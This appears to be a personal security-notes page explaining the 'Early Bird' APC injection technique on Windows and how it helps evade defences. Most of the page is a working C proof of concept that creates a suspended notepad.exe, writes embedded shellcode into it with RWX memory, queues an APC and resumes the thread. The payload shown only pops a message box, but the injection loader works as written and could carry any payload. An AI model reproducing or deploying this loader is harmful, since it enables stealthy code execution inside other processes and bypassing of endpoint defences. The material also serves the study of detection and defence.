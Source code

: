 ```yaml
---
description: 06/08/2023
---
```


# 🐦 APC Injection -- "Early Bird Attack"

## What is the "Early Bird" attack?

> "The early bird gets the worm... :joy:"

#### What is an APC?

This attack focuses on exploiting Asynchronous Procedure Calls (APC's).

First thing's first, you need to understand what APC is. <mark style="color:yellow;">APC, or Acynchronous Procedure Call</mark>, <mark style="color:yellow;">is a</mark> <mark style="color:yellow;">function that will execute asynchronously within a particular thread</mark>.

#### How does the attack work?

<mark style="color:yellow;">This attack will force another thread to execute their custom code by attaching it to the APC queue of the targeted thread</mark>.&#x20;

A thread will then enter an <mark style="color:yellow;">alterable state</mark> once it begins to wait for further execution.

#### Good for defense evasion?

This technique will allow for injected code to run before the entry point of the main thread of the process.&#x20;

* This allows for major evasion and bypassing
* However, it will only work if the defenses are NOT placed before the main thread has its execution resumed.

## High-Level Explanation

1. Create a <mark style="color:yellow;">suspended</mark> process
2. <mark style="color:yellow;">Allocate and write</mark> malicious code into that process
3. <mark style="color:yellow;">Queue an APC</mark> to that process
4. <mark style="color:yellow;">Resume</mark> the main thread to execute the APC

## Physical Notes

<figure><img src="../.gitbook/assets/IMG_8837.jpg" alt="" width="375"><figcaption></figcaption></figure>

## Proof-of-Concept

**earlybird.c:**

```c
#include <stdio.h>
#include <windows.h>

int createProcessF()

{

  
    unsigned char buf[] = 
                           "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
                            "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
                            "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
                            "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
                            "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
                            "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
                            "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
                            "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
                            "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
                            "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
                            "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
                            "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
                            "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
                            "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
                            "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
                            "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
                            "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
                            "\x4c\x8d\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
                            "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
                            "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
                            "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
                            "\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d\x20\x4d"
                            "\x53\x46\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78"
                            "\x00";


    size_t shellcode = sizeof(buf);
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};

    int createProcess = CreateProcessW(L"C:\\WINDOWS\\system32\\notepad.exe",NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

        if (!createProcess)

        {

            printf("(-) Process creation has failed please try again.\n Error: %ld", GetLastError);

            return EXIT_FAILURE;

        }

        else
        {

            printf("(+) Process was successfully created and started!\n PID: %ld", pi.dwProcessId);

            printf("\n\nProcess with PID:%ld has been started, goodbye.", pi.dwProcessId);

            //return EXIT_SUCCESS;

        }

    HANDLE hProcess = pi.hProcess;
    HANDLE hThread = pi.hThread;

    LPVOID shelladdress = VirtualAllocEx(hProcess, NULL, shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shelladdress;

    WriteProcessMemory(hProcess, shelladdress, buf, shellcode, NULL);
    QueueUserAPC((PAPCFUNC)shelladdress, hThread, (ULONG_PTR)0);
    ResumeThread(hThread);

    return 0;

}

int main()

{

printf("Starting notepad.exe as a new process...\n\n");

createProcessF();

}
```

<mark style="color:yellow;">This PoC will send</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`notepad.exe`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into a suspended state and return a message box upon detonation</mark>.

#### References

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection" %}
